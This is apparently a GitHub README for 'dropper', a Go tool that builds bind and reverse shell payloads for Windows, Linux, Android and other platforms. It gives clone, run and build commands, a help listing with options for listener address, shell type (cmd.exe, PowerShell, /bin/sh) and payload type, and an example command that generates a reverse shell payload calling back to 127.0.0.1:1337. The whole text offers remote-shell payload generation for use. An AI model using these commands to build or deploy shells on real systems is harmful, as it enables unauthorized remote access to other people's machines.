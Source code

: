 Dropper

In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code>
<code>go run dropper.go</code>

+...|Choose an OS|...+

- windows
- linux
- freebsd
- nacl
- netbsd
- openbsd
- plan9
- solaris
- dragonfly
- darwin
- android

>_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code>
<code>./dropper -h</code>
Usage of ./dropper:
-a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
-l string
	Listening host: <listening ip:port>
-o string
	Output filename: <anything goes>
-p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
-s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh
-t string
	Payload type: bind/reverse

 Example:
 <code>./dropper -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code>
 
